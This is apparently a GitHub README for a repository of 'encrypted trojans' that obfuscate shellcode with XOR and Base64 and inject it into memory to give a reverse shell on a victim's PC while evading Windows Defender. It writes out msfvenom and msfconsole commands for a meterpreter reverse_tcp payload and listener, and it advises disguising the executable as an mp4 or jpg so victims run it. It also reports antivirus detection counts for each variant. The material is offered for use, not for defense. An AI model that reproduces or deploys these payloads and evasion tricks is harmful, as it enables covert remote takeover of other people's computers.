



# Encrypted Trojans (Undetected)
Encrypted self-injection malware that creates a shell on a victim's pc, using Xor and Base64 encryption, UNDETECTED by Windows defender.

# 💻 Code (Encryption)

The first code is a very basic xor encryption using python, the second one is c++ based, the third one a base64 encoding based encryption, and the last one is a combination of the previous ones. The shellcodes are released with a very simple self injection process i showed in a previous repo, [Self-Injection-Reverse-Shell-Undetected](https://github.com/Hue-Jhan/Self-Injection-Reverse-Shell-Undetected), therefore i will not explain everything in details.

### 1) Python simple xor encryption

In this code the encryption function takes two inputs: a byte sequence (the shellcode), and a key (single-byte key to XOR against the data). It returns a new byte sequence where each byte from the data is XOR'd with the key. 

### 2) Xor encryption

Does the same thing but in c++, unlike the python code, it modifies the shellcode in place. The shellcode array passed to the function is directly changed through the XOR operation, so there is no return value, as the changes are applied directly to the memory location of the shellcode.

### 3) Base64 simple encryption

In this case i used a simple base64 encryption, it works by grouping the binary data into 24-bit blocks (3 bytes), then dividing them into four 6-bit chunks. Each 6-bit chunk is mapped to one of 64 possible characters (A-Z, a-z, 0-9, +, /).

### 4) Xor and Base64 encryption

Here the shellcode is encrypted using a simple XOR operation, and then it's encoded in Base64.

### 5) Multiple Xor and Base64 encryptions

The final encryption consists in multiple rounds of the Xor/B64 encryption, its the most complex i made so far. The only problem is decoding and injecting it, i've been having some issues decoding it as the cmd crashes : (
It's probably related to a buffer overflow due to the size of the encrypted shellcode.

---

# 💻 Code (Self Injection)

**Code explained**:
- First we define the base64 shellcode (make sure architecture is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

**Listener**:

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```


**Payload**:

The payload is, as i said before, a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

**Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with:

``` sessions ``` or ``` shell ```

---

# 🛡 AV Detection



Currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

- Simple python xor: 23 av detections
- Xor: 19 av detections
- Base64: idk
- Xor base 64: 11 av detections
- Multiple round encryptions: idk but definitely less than 10

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.




